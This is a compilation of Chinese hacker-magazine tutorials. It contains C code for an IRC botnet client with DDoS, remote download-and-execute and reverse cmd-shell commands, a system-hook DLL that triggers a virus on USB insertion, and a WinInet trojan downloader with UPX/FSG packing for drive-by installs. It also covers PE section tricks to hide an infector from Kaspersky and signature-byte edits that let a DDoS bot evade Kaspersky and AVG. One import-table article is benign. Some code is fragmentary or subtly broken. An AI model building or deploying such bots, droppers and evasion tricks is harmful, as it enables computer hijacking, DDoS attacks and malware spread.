- 服务器向客户端发送广播消息：`发送者昵称 PRIVMSG 聊天房间名:消息内容`
- 客户端向服务器发送私聊消息：`PRIVMSG 接收者昵称:消息内容`
- 服务器向客户端发送私聊消息：`发送者昵称 PRIVMSG 接收者昵称:消息内容`

经过上面的分析总结，我们知道了 IRC 的登录以及消息的收发过程。当然，上面的过程忽略了一些不重要的数据，还有很多的协议命令以及命令参数没有涉及到。实际过程十分复杂，不过有了这些，我们要实现一个简单的 IRCBOT 足够了。

下面我们就具体实现一个 IRCBOT，开发工具为 VC6.0，本地服务器采用 IRCServ.exe，客户端 Dana.exe。限于篇幅，只实现两个简单功能：反弹一个 CMDShell 和远程批量下载文件并执行。

根据上面的分析结果，我们先定义需要用到的全局变量。

```c
char Nickname[10] = "air_bot";   // BOT 的昵称
char Channel[20] = "#hacker.com.cn";
// 聊天房间，也就是在这里对 BOT 进行批量控制
char port[7] = "6667";
// IRC 服务器端口，默认是 6667
// char hostname[20] = "82.96.64.4"; // 连接的 IRC 服务器地址
char hostname[20] = "127.0.0.1"; // 本地 IP 地址
```

然后再声明两个函数。

```c
int logon(SOCKET s);      // 登录到服务器
int DealWithMsg(SOCKET s); // 处理登录后的消息，IRCBOT 的主体部分
```

在程序连接到 IRC 服务器 6667 端口后，紧接着就发送登录信息。下面是 `logon(SOCKET s)` 函数的实现代码。

```c
int logon(SOCKET s)
{
    char buffer[MAX_DATA] = {0};
    sprintf(buffer, "USER %s Air_IrcBot_test\n", Nickname);
    send(s, buffer, strlen(buffer), 0);

    sprintf(buffer, "NICK %s\n", Nickname);
    send(s, buffer, strlen(buffer), 0);

    sprintf(buffer, "JOIN %s\n", Channel);
    send(s, buffer, strlen(buffer), 0);

    sprintf(buffer, "PRIVMSG %s :hello! IRCbot test!\n\r", Channel);
    send(s, buffer, strlen(buffer), 0);

    return 0;
}
```

当 IRCBOT 进入房间后，就开始等待控制者发送带有控制命令的消息了。在没有收到消息时，为了保持在线，必要时需对服务器 PING 命令进行响应。下面开始处理登录房间后收到的消息。

```c
int DealWithMsg(SOCKET s)
{
    char sz_nick[DATA] = {0};
    char sz_command[DATA] = {0};
    char sz_channel[DATA] = {0};
    char Msg_text[MAX_DATA*8] = {0};

    char Buff[MAX_DATA*8] = {0};
    static char rt[8] = {0};
    char cmd[8] = {0};
    char arg1[28] = {0};

    while(1) {
        int i, ret;
        i = recv(s, Buff, 8191, 0);
        // ...
    }
}
```

```c
if (i == 6)
{
    strncpy(rt, Buff, 4);
    rt[4] = '\0';
    if (strcmp(rt, "PING") == 0) // 收到服务器 PING 命令
    {
        send(s, "PONG\n", strlen("PONG\n"), 0);
        // 发送响应包 PONG
        i = 0;
    }
}
```

由于我是用 IRCServ.exe 在本地测试的，IRCServ.exe 这个程序里的 PING 加上回车刚好长度为 6，所以才可以用判断数据长度的方法来判断。在连接到网络上的 IRC 服务器时，这里可能会有点不同，有的是在 PING 后面加上用户昵称实现的，就留给读者朋友们自己处理一下啦。

```c
else
{
    // 收到不是 PING 的消息时
    ret = sscanf(Buff, ":%s%s%s :%[^\r\n]", sz_nick, sz_command, sz_channel, Msg_text);
    // 将消息各部分分离（用户、命令、房间/接收者、消息内容）
    if (strcmp(sz_command, "PRIVMSG") == 0 && strstr(sz_channel, "#") == NULL)
    {
        sscanf(Msg_text, "%s %s", cmd, arg);
        if (strcmp(cmd, "ddos") == 0 && strlen(arg) == 0)
        {
            char ip[20];
            char port[7];
            sscanf(arg, "%s %s", ip, port);
            DDOS(ip, port);
            sprintf(Buff, ":%s PRIVMSG %s :DDOS Started!...\r\n", Nickname, sz_nick);
            send(s, Buff, strlen(Buff), 0);
        }

        if (strcmp(cmd, "wget") == 0 && sizeof(arg) == 0)
        {
            char fname[200];
            char FileName[MAX_PATH] = "test.exe";
            GetSystemDirectory(fname, MAX_PATH);
            strcat(fname, "\\");
            strcat(fname, FileName);
            sprintf(Buff, ":%s PRIVMSG %s :DownLoad Now ...\r\n", Nickname, sz_nick);
            send(s, Buff, strlen(Buff), 0);
            HRESULT hRet = URLDownloadToFile(0, arg, fname, 0, 0);
            if (hRet == S_OK)
            {
                sprintf(Buff, ":%s PRIVMSG %s :Http DownLoad The File Successfully!...\r\nThe File Current Path:%s\r\n", Nickname, sz_nick, fname);
                send(s, Buff, strlen(Buff), 0);
            }
            else
            {
                sprintf(Buff, ":%s PRIVMSG %s :Fail To Http DownLoad The File\r\n", Nickname, sz_nick);
                send(s, Buff, strlen(Buff), 0);
            }
            sprintf(Buff, ":%s PRIVMSG %s :Download finished!...\r\n", Nickname, sz_nick);
            send(s, Buff, strlen(Buff), 0);
        }
    }
}
```

```c
else
{
    sscanf(Msg_text, "%s %s", cmd, arg);
    // 这里收到的是私聊消息，也就是对单个主机进行控制
    if (strcmp(cmd, "help") == 0)
    {
        for (i = 0; i < 6; i++)
        {
            sprintf(Buff, ":%s PRIVMSG %s :%s\r\n", Nickname, sz_nick, Help_Msg[i]);
            printf("%s\n", Buff);
            send(s, Buff, strlen(Buff), 0);
        }
    }

    // 反弹一个 CMDShell，对单个 IRCBOT 进行控制
    if (strcmp(cmd, "recmd") == 0)
    {
        if (strlen(arg) == 0)
        {
            WSADATA ws;
            SOCKET hSocket;
            STARTUPINFO si;
            PROCESS_INFORMATION pi;
            struct sockaddr_in adik_sin;
            memset(&adik_sin, 0, sizeof(adik_sin));
            memset(&si, 0, sizeof(si));
            WSAStartup(MAKEWORD(2, 0), &ws);
            hSocket = WSASocket(AF_INET, SOCK_STREAM, NULL, NULL, NULL, NULL);
            adik_sin.sin_family = AF_INET;
            adik_sin.sin_port = htons(7788);
            adik_sin.sin_addr.s_addr = inet_addr(arg);
            if (0 != connect(hSocket, (struct sockaddr*)&adik_sin, sizeof(adik_sin))) return -1;
            si.cb = sizeof(si);
            si.dwFlags = STARTF_USESTDHANDLES;
            si.hStdInput = si.hStdOutput = si.hStdError = (void*)hSocket;
            CreateProcess(NULL, "cmd.exe", NULL, NULL, 1, NULL, NULL, NULL, &si, &pi);
        }
    }
}
```

```c
}else
{
    sprintf(Buff,"%s PRIVMSG %s :Usage: recmd :127.0.0.1\r\n",Nickname,sz_nick);
    printf("%s\n",Buff);
    send(s,Buff,strlen(Buff),0);
}

memset(Buff,0,sizeof(Buff));
memset(cmd,0,sizeof(cmd));
memset(arg,0,sizeof(arg));
return 0;
}
```

```c
server.sin_family = AF_INET;
server.sin_port = htons(atoi(port));
server.sin_addr.s_addr = inet_addr(hostname);

for(;;)
{
    if (connect(s,(struct sockaddr *)&server,sizeof(server)) == SOCKET_ERROR)
        Sleep(5000);
    else break;
}
logon(s);
// 登录到服务器，并进入聊天室
DealWithMsg(s);
// 处理消息，执行命令
return 0;
}
```

这样，整个程序的主体部分代码就编写完了，至于主函数，实现就比较简单了，代码如下。

```c
int main()
{
    WSADATA ws;
    SOCKET s;
    WSAStartup(MAKEWORD(2,2),&ws);
    s = WSASocket(PF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    struct sockaddr_in server;
```

至此，如何编写一个完整的 IRCBOT 就介绍完了，上面的代码基本没有什么难度，相信大家都可以看明白。本文只是为了让大家了解 IRCBOT 程序的基本工作原理，代码比较简陋，如果觉得功能太少就自己动手增加代码吧。以上内容仅做学习之用，请勿用于非法用途。

- 适合读者：编程爱好者
- 前置知识：VC

#### 自己编程抓肉鸡
##### ——将捕获消息进行到底


文／图 冰海[LOVECN]

相信大家用我上期讲的方法应该都抓了不少肉鸡吧？上次编写的程序主要是截获 WM_DEVICECHANGE 消息实现功能，程序中是老老实实地创建了 Windows 窗口，但这个窗口其实我们并不需要，而且还会增大程序的体积，有没有办法不用创建窗口呢？大家还记得上次讲的截获消息的两种方法吧？一种是在本程序响应要捕捉的消息，这种方法比较简单，但不易传播；还有一种就是通过安装系统钩子捕获系统消息。由于钩子程序是在 DLL 中编写，隐蔽性很好，而且我们也可以将其注入到其它的进程中，就算中毒电脑主人找到木马，由于正在运行的程序是无法删除的（必须先结束掉调用 DLL 的进程），可以避免被杀。既然它有这样的好处，那么下面我们就来编写自己的钩子程序，将捕获消息进行到底。

首先我们需要对钩子程序运行过程有个大体的了解，Windows 的消息传递过程，正常的情况下是“操作系统->消息队列->应用程序->响应返回给用户”这样一个基本过程。如果我们编写了钩子程序，它就会在系统传递消息之前对消息队列中的消息进行捕获，并对其响应，也就是说它可以先于应用程序获得系统的控制权。听到这里，大家应该对钩子的作用有个大概的了解了吧？还不清楚的话，可以去查看相关的资料。

下面我们就一起来编写自己的钩子程序，如果大家是刚接触钩子程序也不必担心，在程序中我会加上详细的解释，大家只要认真看完，应该是没有问题的。现在开始对上次的程序进行改进，在钩子程序中对 WM_DEVICECHANGE 进行监听，如果有 U 盘插入，则将上次程序实现的功能记作函数 `void VIRUS(void)`，方便我们抓住主要矛盾，忽略次要矛盾，呵呵。

这样，钩子程序就写完了，没有大家想象的难吧？细心的读者可能发现了，我在卸载钩子处加了注释符，也许在有的人的认知里有个定势，觉得用完了钩子就要卸载，这主要是根据需要来看。由于我们编写的钩子程序需要驻留在内存一直对系统进行监听，如果在加载一次的时候就把它卸载了，就算程序在运行，那么下次也不会继续捕获我们需要的消息了，所以这里不要卸载钩子。

大家都知道，DLL 是不能直接运行的，需要程序将其加载进去，这样才能完整地实现功能，下面我们来看程序的加载。

```c
#define DBT_DEVICEARRIVAL 0x8000
HHOOK hHook = NULL;
HINSTANCE hinstance;
BOOL InstallHook();
void EndHook(void);

BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        hinstance = (HINSTANCE)hModule;
        /* EndHook(); */  // 注释掉卸载钩子
        break;
    default:
        break;
    }
    return TRUE;
}

LRESULT CALLBACK HookProc(int nCode, WPARAM wParam, LPARAM lParam)
{
    if (nCode == HC_ACTION)
    {
        PCWPSTRUCT msg = PCWPSTRUCT(lParam);
        if (msg->message == WM_DEVICECHANGE)
        {
            if (msg->wParam == DBT_DEVICEARRIVAL)
            {
                VIRUS();
                MessageBox(NULL, "usb", "warn", MB_OK);
            }
        }
    }
    LRESULT ret = CallNextHookEx(hHook, nCode, wParam, lParam);
    return ret;
}

BOOL InstallHook()
{
    hHook = SetWindowsHookEx(WH_CALLWNDPROC, HookProc, hinstance, 0);
    return true;
}

void EndHook(void)
{
    UnhookWindowsHookEx(hHook);
}
```

```c
MSG msg;
HINSTANCE dllhinstance;
typedef BOOL (CALLBACK* INSTALLHOOK)(VOID);
INSTALLHOOK installhook;

dllhinstance = LoadLibrary("HOOKDLL.dll");
if (dllhinstance != NULL)
{
    installhook = (LPFNDLLFUNC1)GetProcAddress(dllhinstance, "InstallHook");
    if (installhook != NULL)
        installhook();
}

while (GetMessage(&msg, 0, 0, 0))
{
    TranslateMessage(&msg);
    DispatchMessage(&msg);
}

return true;
```

在上面的程序中，我们不再需要按照定义窗口类、注册窗口类、创建窗口、隐藏显示窗口的步骤来捕获消息，直接挂钩就可以代替那些繁琐的步骤，而且还将我们的程序进行了体积缩减，凭自己的能力再次让我们的程序获得新生。

至此，程序编写完成，下面我们一起来对其进行调试。在调试中，当 U 盘插入的时候会有很多的消息框弹出，如图 1 所示。右边的对话框其实是很多对话框的重叠，我一直点了 20 几次“确定”才真正关掉……


图1

安装的是系统钩子，它会将发送到任何窗口的 WM_DEVICECHANGE 消息进行捕捉。在这里如果不想深入了解，解决的办法很简单，我们可以安装截获某个单窗口程序的钩子，并在钩子处理函数中添加一个全局变量来控制程序运行的次数，当其大于 1 的时候，就不执行，记得将初始化变量喔。下面我们来修改程序，处理函数的修改比较简单，完整的程序我已打包，就不贴出来占篇幅了，主要来讲讲安装钩子函数的修改，代码如下。

```cpp
BOOL InstallHook()
{
    HWND hWnd = ::FindWindow("MSCTFIME UI", NULL);
    // 针对某个单窗口，大家可以用 spy++ 查找窗口
    DWORD dwThreadId = 0;
    if (hWnd != NULL)
    {
        dwThreadId = ::GetWindowThreadProcessId(hWnd, &dwThreadId);
    }
}
```

```cpp
if (dwThreadId != 0)
{
    hHook = SetWindowsHookEx(WH_CALLWNDPROC, HookProc, hModule, dwThreadId);
    if (hHook == NULL || hWnd == NULL)
    {
        MessageBox(NULL, "Hook Failed!", "Hook Message", MB_OK);
        return false;
    }
    MessageBox(NULL, "Hook Succeed!", "Hook Message", MB_OK);
    return true;
}
```

我们再运行一遍程序，这次只点击了一下“确定”对话框就关闭了。呵呵，终于成功了！接下来大家还可以继续对程序进行改进，打造属于菜鸟自己的木马程序。

- 适合读者：编程爱好者
- 前置知识：VC

#### 浅窥导入函数
##### 输出导入信息的程序


在 Win32 编程中常常用到导入函数，导入函数是被程序调用但其实现的代码却又不在程序中的函数，而是在其他模块中的函数，这些函数的代码都位于一个或者多个 DLL 中，而且 API 函数都是导入函数。在调用者程序中只保留一些函数信息，包括函数名及其驻留的 DLL 名。大家可以写一个简单的 Win32 程序，然后反汇编，看看是如何调用 API 函数的。

模块的导入函数名和这些函数保存的 DLL 名等信息都保留在它的导入表中（import table）中。导入表由一系列的 IMAGE_IMPORT_DESCRIPTOR 结构组成，结构的数量取决于程序要使用的 DLL 文件的数量多少，每个结构都会对应一个 DLL 文件。在所有这些结构的最后，由一个内容全为 0 的 IMAGE_IMPORT_DESCRIPTOR 结构作为结束。

IMAGE_IMPORT_DESCRIPTOR 结构的定义如下：

```cpp
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
    union {
        DWORD Characteristics;
        DWORD OriginalFirstThunk;
    };
    DWORD TimeDateStamp;
    DWORD ForwarderChain;
    DWORD Name;
    DWORD FirstThunk;
} IMAGE_IMPORT_DESCRIPTOR;
```

Name 字段是一个 RVA（Relative Virtual Address），指向此结构所对应的 DLL 文件的名称。OriginalFirstThunk 和 FirstThunk 都指向一个 IMAGE_THUNK_DATA 结构，该结构里保存着导入函数的信息。同样，最后以一个内容为 0 的结构结束。

好了，现在来看看如何输出自身调用的 DLL 名及所导入的函数，代码如下。

```cpp
hMod=GetModuleHandle(NULL);
IMAGE_DOS_HEADER *pDosHeader=(IMAGE_DOS_HEADER*)hMod;
IMAGE_OPTIONAL_HEADER *pOptHeader=(IMAGE_OPTIONAL_HEADER *)((BYTE*)hMod+pDosHeader->e_lfanew+24);
IMAGE_IMPORT_DESCRIPTOR *pImportDesc=(IMAGE_IMPORT_DESCRIPTOR *)((BYTE*)hMod+pOptHeader->DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress);
```

pDosHeader 指向 DOS 文件头，通过 DOS 文件头的 e_lfanew 可以得到 NT 文件头，NT 头的前 4 个字节是 PE 文件的标识，接下去的 20 个字节是 IMAGE_FILE_HEADER 结构，再接下去就是 IMAGE_OPTIONAL_HEADER 结构。在 IMAGE_OPTIONAL_HEADER 里的 DataDirectory（数据目录）的 VirtualAddress 来找到导入表的位置。这是对上面代码的解释，当然，让大家比较疑惑的就是上面那个有“+24”的地方，如果不说清楚是很难想到那里为什么要加 24 的。

```cpp
while(pImportDesc->FirstThunk)
{
    char *pszDllName=(char *)((BYTE *)hMod+pImportDesc->Name);
    printf("\n模块名称:%s\n",pszDllName);

    IMAGE_THUNK_DATA *pThunk=(IMAGE_THUNK_DATA*)((BYTE*)hMod+pImportDesc->OriginalFirstThunk);
    int n=0;
    while(pThunk->u1.Function)
    {
        char *pszFunName=(char *)((BYTE *)hMod+(DWORD)pThunk->u1.AddressOfData+2);
        PDWORD lpAddr=(DWORD *)((BYTE *)hMod+pImportDesc->FirstThunk)+n;
        printf("从此模块导入的函数%-25s,函数地址：%x\n",pszFunName,lpAddr);
        n++;
        pThunk++;
    }
    pImportDesc++;
}
```

这段代码就是取得模块名和导入函数的代码。通过上面的解释，这段代码大家可以很容易地理解。代码内部循环是一个模块的导入函数的名称和地址；外部循环可以输出模块的名称。不过，如果只是得到自身的导入函数好像没什么意思嘛，那如何查看别的可执行文件的导入函数呢？

我们接着上面提出的问题讨论：那就是如何查看别的可执行文件的导入函数呢？如果要得到其他可执行文件的导入函数，需要把这个可执行文件打开并进行内存文件映射。直接处理磁盘上的静态 PE 文件会比较麻烦，需要一些比较烦琐的计算，这里就不说了，还是主要来看看我们的内存映射文件吧。

```cpp
hFile=CreateFile(argv[1],GENERIC_READ,FILE_SHARE_READ | FILE_SHARE_WRITE,NULL,OPEN_EXISTING,FILE_ATTRIBUTE_ARCHIVE,NULL);
dwFileSize=GetFileSize(hFile,NULL);
hMap=CreateFileMapping(hFile,NULL,PAGE_READONLY,0,0,NULL);
LPVOID lpBase=MapViewOfFile(hMap,FILE_MAP_READ,0,0,0);
```

其实步骤就是打开文件（CreateFile），得到文件的大小（GetFileSize），创建内存映射对象（CreateFileMapping）和映射对象的一个视图（MapViewOfFile）。得到映射对象的一个视图后，指针（lpBase）就指向了文件的开头。得到其他可执行文件的模块名及导入函数的方法和得到自身模块名及导入函数的方法是一样的，只要把上面代码中的 hMod 变量替换成 lpBase 就可以了。抓个图给大家看看吧，如图 1 所示，显示的是这个自身程序的导入函数及模块名。


图1

了解 PE 文件头的结构在 Win32 可执行文件中是非常重要和有必要的，而 PE 文件头的结构又是非常复杂的，而且资料也不是很全，学起来真的是非常复杂了。希望我提供的内容能给大家一些帮助。至于导入函数的应用，也是很多的，比如说病毒、杀毒软件等等这类软件，就需要对它们进行了解。本文如果有什么错误之处，欢迎大家帮忙指出。


- 适合读者：编程爱好者
- 前置知识：VC

#### 为反弹远控服务端

文／圈 Lyver

本文要和大家探讨一下在制作服务端的时候怎么压缩的问题。在编写自己的网络僵尸、远程控制软件和下载感染者的时候，大家可能会遇到这样的一个问题：服务端太大导致没法挂马，不利于传播。现在的网马使用的下载者一般都是 1～3K 的大小，全功能的远程控制软件的大小也不过 20～30K；但是编程的人都知道，远程桌面、远程摄像头管理和传输要用到压缩算法，一个 JPEG Lib 一般都有 20～30K，H.323 的库也不小，它们是怎么做到的呢？方法有很多，下面就用几个例子给大家说明一下。

```c
typedef BOOL (WINAPI *pHttpSendRequest)(LPVOID, LPCTSTR, DWORD, LPVOID, DWORD);
typedef LPVOID (WINAPI *pInternetConnect)(LPVOID, LPCTSTR, char, LPCTSTR, LPCTSTR, DWORD, DWORD, DWORD);
pInternetOpen InternetOpen = (pInternetOpen)GetProcAddress(hDll, "InternetOpenA");
pInternetCloseHandle InternetCloseHandle = (pInternetCloseHandle)GetProcAddress(hDll, "InternetCloseHandle");
pInternetReadFile InternetReadFile = (pInternetReadFile)GetProcAddress(hDll, "InternetReadFile");
pInternetConnect InternetConnect = (pInternetConnect)GetProcAddress(hDll, "InternetConnectA");
pHttpQueryInfo HttpQueryInfo = (pHttpQueryInfo)GetProcAddress(hDll, "HttpQueryInfoA");
pHttpOpenRequest HttpOpenRequest = (pHttpOpenRequest)GetProcAddress(hDll, "HttpOpenRequestA");
pHttpSendRequest HttpSendRequest = (pHttpSendRequest)GetProcAddress(hDll, "HttpSendRequestA");
// ...
```

##### 动态加载自己所用的函数

这里就用一个我自己写的下载者作为说明，可以过去吧（注意应用本文代码的时候要署名：first author by lyver），其功能为动态加载 `LoadLibrary("wininet.dll")`；这样我们就可以应用其下载我们想要的东西了。读取指定 URL 的内容，反弹木马 URL 配置 IP 信息时需要用到，比如读取 `http://www.xxx.com/user/ip.jpg`。

```c
// author by lyver
#include "stdlib.h"
#define HTTP_QUERY_CONTENT_LENGTH 5
#define INTERNET_SERVICE_HTTP 3
#define INTERNET_INVALID_PORT_NUMBER 0
#define INTERNET_FLAG_NO_CACHE_WRITE 0x04000000
#define INTERNET_FLAG_DONT_CACHE INTERNET_FLAG_NO_CACHE_WRITE

BOOL HttpGetFile(char urlmain[], char urllast[], char savepath[MAX_PATH])
{
    HMODULE hDll;
    LPVOID hSession, hConnect, hHttpFile;
    hDll = LoadLibrary("wininet.dll");
    // typedef 与函数指针定义...
}
```

```cpp
memset(buffer,0,1025);
DWORD dwBytesRead=0;
BOOL bRead=false;
DWORD write_size=0;
HANDLE hFile = CreateFile(savepath, GENERIC_WRITE,
FILE_SHARE_READ|FILE_SHARE_WRITE,NULL,
OPEN_ALWAYS,FILE_ATTRIBUTE_NORMAL,NULL);

// Read the file into the buffer.
if (hFile)
{
    do
    {
        bRead = InternetReadFile(hHttpFile,buffer,1024+1,
        &dwBytesRead);
        WriteFile(hFile,buffer,dwBytesRead,&write_size,NULL);
        Sleep(1);
    } while(dwBytesRead);
}
else
{
    return false;
    OutputDebugString("打开文件出错");
}

delete buffer;
CloseHandle(hFile);
return true;

// Close all of the Internet handles.
InternetCloseHandle(hHttpFile);
InternetCloseHandle(hConnect);
InternetCloseHandle(hSession);

return false;
FreeLibrary(aDll);
...
OutputDebugString("LoadLibrary wininet error");
return false;
```

图2

```cpp
// 得到程序本身的路径
char LocalPath[MAX_PATH];
GetCurrentDirectory(MAX_PATH,LocalPath);
strcat(LocalPath,"\\Svchost.exe");
LoadSource(IDR_SERVER,"SERVER",LocalPath);

// UPX 程序的路径
char UpxPath[MAX_PATH];
strcpy(UpxPath,"upx.exe");
LoadSource(IDR_UPX,"UPX",UpxPath);
strcat(UpxPath," -7 ");
strcat(UpxPath,LocalPath);

PROCESS_INFORMATION PI;
STARTUPINFO SI;
memset(&SI, 0, sizeof(SI));
SI.cb = sizeof(SI);
SI.dwFlags = STARTF_USESHOWWINDOW;
SI.wShowWindow = SW_HIDE;
CreateProcess(NULL, UpxPath, NULL, NULL, FALSE,
NORMAL_PRIORITY_CLASS, NULL, NULL, &SI, &PI);
WaitForSingleObject(PI.hProcess,INFINITE);
DeleteFile("upx.exe");

// FSG 压缩
char FSGPath[MAX_PATH]={0};
GetCurrentDirectory(MAX_PATH,FSGPath);
strcat(FSGPath,"\\fsg.exe");
LoadSource(IDR_FSG,"FSG",FSGPath);
...
CreateProcess(NULL, FSGPath, NULL, NULL, FALSE,
NORMAL_PRIORITY_CLASS, NULL, NULL, &SI, &PI);
WaitForSingleObject(PI.hProcess,INFINITE);
DeleteFile("fsg.exe");
DeleteFile("fsg.ini");
```

#### 通过压缩壳程序对自己的程序压缩

这里我只介绍UPX和FSG的压缩，实验的例子是一个76k的程序。首先打开VC6.0建立一个对话框程序，然后把那个76k的程序作为资源放到Test资源里。如图1所示，大家可以看到其MZ头，它是EXE程序的特征。然后再用同样的方法把压缩程序也放到资源里，如图2所示。这里要注意一下，FSG有个INI文件也要放到资源里，同时修改fsg.ini文件里的一个配置，让default=1，这样可以把ICON资源也一起压缩。具体的程序实现代码如下。

图1

图3是上面程序运行时的截图，怎么样，还不错吧？最后还有一个关键的释放资源的函数再给大家介绍一下，其代码如下。

```cpp
if( file.Open( filepath, CFile::modeCreate | CFile::modeWrite ) )
{
    file.Write( MemPtr, size );
    file.Close();
    ::UnlockResource( handle );
    ::FreeResource( handle );
    return TRUE;
}
return FALSE;
```

图3

```cpp
BOOL LoadSource(UINT resource_id, const char *type, const char *filepath)
{
    // 获得资源指针
    HRSRC hRsrc = ::FindResource(NULL, MAKEINTRESOURCE(resource_id), type);
    // 将资源载入内存
    HGLOBAL handle = ::LoadResource(NULL, hRsrc);
    // 写入文件
    if(handle)
    {
        // 定位资源位置
        BYTE *MemPtr = (BYTE*)LockResource(handle);
        CFile file;
        ...
    }
}
```

通过这两个步骤，基本上你的服务端就会很小了，然后再用我上面给大家的下载者下载服务端就可以挂马了。

最后再和大家说说编程的问题。其实程序能用就可以了，不用太过追求完美。咱们可以假设一下，如果我要写一个下载者，实现HTTP协议下载，从WinSocket写起，完成这个功能最少也要一个月时间。如果要是用WinInet写的话，也许就一上午就能搞定。做程序也要考虑时间的问题，否则写出来的东西就跟不上需求了，也就没有意义了。如果大家对本文有什么疑问，可以到黑防论坛或者 http://lyyer.blog.sohu.com 与我讨论。

- 适合读者：编程爱好者
- 前置知识：VC

## PE感染也可以很飘逸

文／图 夕辛

朋友跟我要PE感染的代码学习，于是发了份以前从网上下载的国外代码给他。这份代码主要演示了如何感染PE，让被感染程序运行前跳出一个消息框。我对这份代码进行了修改，让被感染的宿主文件运行前先启动病毒体文件。

后来朋友告诉我这段代码被卡巴杀了，说是“type_win32”病毒，如图1所示。他对代码进行一些修改和顺序的调试，依然被杀。其实“type_win32”并非是针对这份感染代码，可以说它是一种广谱查杀，杀毒软件的启发式扫描杀毒。

图1

以前看过一篇文章《杀毒软件的亲密接触——PE结构分析技术在反病毒中的应用》，其中提到，通过判断PE文件中程序入口点是否异常来判断程序是否感染病毒。原文摘抄如下：“杀毒软件可以根据PE文件入口点是否异常来判断文件是否有被病毒感染的嫌疑。通常入口点所指的相对虚拟地址比较靠前，不会在靠近文件末尾处，或者指向最后一个节后的内容，如果一个PE文件的入口点指向不是这样，那么就说明这个文件有被病毒感染的嫌疑。”

为了对付杀毒软件的这种查杀，病毒技术研究者们提出了入口点模糊（EPO）技术。这里我们不具体介绍EPO技术，而是针对卡巴提出一种简单的方法——增加一段空节。增加空节涉及一些PE结构，这些在黑防多期杂志都有介绍，这里就略去了。由于本文不是介绍PE感染技术的，所以下面仅介绍增加空节的代码。

```cpp
// Method AddEmptySection
// Returns BOOL
// Parameter: PCTSTR ptFile 要添加空节的文件路径
// Parameter: UINT uSize 空节的大小
BOOL AddEmptySection(PCTSTR ptFile, UINT uSize)
{
    HANDLE hFile = NULL;
    HANDLE hMapping = NULL;
    LPVOID bPointer = NULL;
    PBYTE pData = NULL;
    // 打开源文件
    hFile = CreateFile(...);
    ...
    // 检查DOS特征
    if (((PIMAGE_DOS_HEADER)pData)->e_magic != IMAGE_DOS_SIGNATURE)
        return FALSE;
    ...
}
```

```cpp
PIMAGE_NT_HEADERS pNTHdr = (PIMAGE_NT_HEADERS)(pData + ((PIMAGE_DOS_HEADER)bPointer)->e_lfanew);
if (pNTHdr->Signature != IMAGE_NT_SIGNATURE)
    return FALSE;

// 检查杂头（节描述）空间
if ((pNTHdr->FileHeader.NumberOfSections + 1) * sizeof(IMAGE_SECTION_HEADER) > pNTHdr->OptionalHeader.SizeOfHeaders)
    return FALSE;

// Calculate code and file delta
DWORD uCodeDelta = ZALIGNN(uSize, pNTHdr->OptionalHeader.SectionAlignment);
DWORD dwFileDelta = ZALIGNN(uSize, pNTHdr->OptionalHeader.FileAlignment);

PIMAGE_SECTION_HEADER pNewSec = ...;
PIMAGE_SECTION_HEADER pLastSec = pNewSec - 1;
memcpy(pNewSec->Name, ".Qing", 6);
...
pNTHdr->FileHeader.NumberOfSections++;
pNTHdr->OptionalHeader.SizeOfCode += uCodeDelta;
pNTHdr->OptionalHeader.SizeOfImage += dwFileDelta;
...
UnmapViewOfFile(bPointer);
CloseHandle(hMapping);
CloseHandle(hFile);
return TRUE;
```

更多的具体代码请参考本文所附代码。下面测试一下，结果宿主文件顺利启动了病毒文件并且不被卡巴查杀，如图2所示。

另外，增加空节在免杀中也经常用到，当PE空隙不够，我们也经常添加空节来增大0区域，因此，上面这段代码还可以写出一个增加空节的工具，有兴趣的赶快动手试试吧。

- 适合读者：工具爱好者，网络爱好者
- 前置知识：无

#### 傀儡僵尸终极免杀

文／图 kissy

看了这么久的黑防，读了不少免杀的文章，惟独没有看到关于傀儡僵尸的，在网上搜索仅仅发现2篇文章，其中一篇介绍的方法，我测试的时候已经失效了；另外一种方法，怎么测试都没办法上线，让人相当郁闷，再加上群里朋友经常要我做这个教程，今天难得有空，于是坐下来分析了一下这个号称中国最强的DDOS软件的免杀方法。

图2

##### 免杀过卡巴斯基

都说卡巴吃花指令，可毕竟网上流传的加花软件都基本上失效了。对菜鸟而言，自己写花指令不是一件简单的事情，况且傀儡我测试时发现脱壳加了花之后根本无法上线，所以最好的方法还是修改特征码，很多时候，特征码的修改并不需要懂太多汇编指令和跳转什么的。对菜鸟而言这些很头疼，那么不妨看看能不能简单地改字母大小写或把FF用00替换掉来免杀。

首先配置生成服务端，由于是测试，我用的是1.0破解版的，大家支持下正版的好。生成好后用PEID查壳，发现是UPX的壳，如图1所示，直接用UPX Shell脱壳。值得注意的一点是：如果大家手动或者用别的方法脱壳的话，脱壳后一定要补上附加数据，否则脱壳后会无法正常运行。

图1

脱壳完了后，我们来测试是否能上线（记得备份），如图2所示。接下来就是定位特征码了，考虑到很多菜鸟可能对特征码的定位不太熟悉，这里简单地重复一下定位特征码的方法：打开MYCCL，点文件选择要处理的文件，勾上带后缀，在分段个数量填100，其他的默认，点生成，此时会在文件所在目录里生成OUTPUT文件夹。

用卡巴斯基扫描，删掉被杀的，点二次处理，再用卡巴斯基扫描，直到不被检查出被杀文件。这时点击特征区间，在拉开的目录中用右键点击出现的地址，选择复合定位此处特征码，将分块个数酌情缩小（具体点就是先100，再50，再默认的7）。重复上述操作，直到单位长度为2，生成的文件不被杀为止，如图4所示，右边地址栏显示的便是特征码的位置。

图3

图4

显然这里有两处特征码，这个时候先用C32Asm十六进制加载服务端（很多人总是喜欢直接用OD载入，有些时候会走不少弯路），这样做的目的是看能不能简单通过字母的修改或者将FF改成00而达到免杀的目的。答案是肯定的，这里我直接把结果告诉大家，把0000F858处的字母A改成a，把0000F96C处的第一个FF改成00，就可以成功躲过卡巴斯基的追杀（至于为什么这么改，大家自己想想看），简单吧？如图5和图6所示。

图5

图6

### 免杀过AVG

AVG虽然号称杀马第一，然而我觉得要过它还是很容易的，一般都能够用定位特征码，然后改字母大小写的方法来实现免杀。因为这个软件定位的特征码基本上很少是复杂的，往往只需要更改一个字母，鼎鼎大名的AVG就成了睁眼瞎，让我们菜鸟很有成就感。下面我就具体地来演示一下过程，定位的方法上面提过，这里就不说了，直接给出结果。

图7

如图7所示，特征码出现在0000DF66处，用C32Asm.exe载入来到特征码地址，直接将第一个FF改成00，即可成功免杀，如图8所示。

图8

